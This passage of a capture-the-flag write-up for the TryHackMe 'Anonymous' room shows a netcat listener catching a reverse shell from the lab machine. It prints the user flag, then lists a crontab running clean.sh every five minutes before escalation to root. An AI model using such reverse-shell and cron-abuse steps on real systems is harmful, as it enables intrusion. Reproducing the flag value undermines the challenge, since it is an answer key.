 ~~~
unknown@localhost:/data/documents/challenges/TryHackMe/Anonymous$ rlwrap nc -nlvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.64.21.
Ncat: Connection from 10.10.64.21:49362.
bash: cannot set terminal process group (1573): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$ 
namelessone@anonymous:~$ ls
ls
pics
user.txt
cat user.txt
90d6f992585815ff991e68748c414740
~~~

User flag: `90d6f992585815ff991e68748c414740`


# #6 - root.txt

*Hint: This may require you to do some outside research*

From here, I was able to confirm that the `clean.sh` script was executed by crontab, every 5 minutes:

~~~
namelessone@anonymous:/home$ crontab -l
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').# 
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
*/5 * * * * /var/ftp/scripts/clean.sh
~~~
